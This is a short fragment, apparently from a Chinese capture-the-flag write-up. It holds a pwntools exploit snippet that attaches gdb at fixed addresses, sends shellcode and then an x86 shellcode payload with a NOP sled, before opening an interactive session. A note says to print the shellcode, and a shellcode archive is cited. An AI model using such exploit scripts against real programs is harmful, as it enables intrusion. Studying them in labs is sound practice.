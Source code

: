 ```python
# pause()
gdb.attach(p,"b *0x40027f\nb*0x4002eb\nc\nc\nsi\n")
p.sendline(shellcode)
pause()

p.sendline(shellcode_x86 + 0x29*'\x90' + shellcode_flag)
p.interactive()
```



打印出shellcode

![5oaXof](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/5oaXof.png)











参考网站 http://shell-storm.org/shellcode/

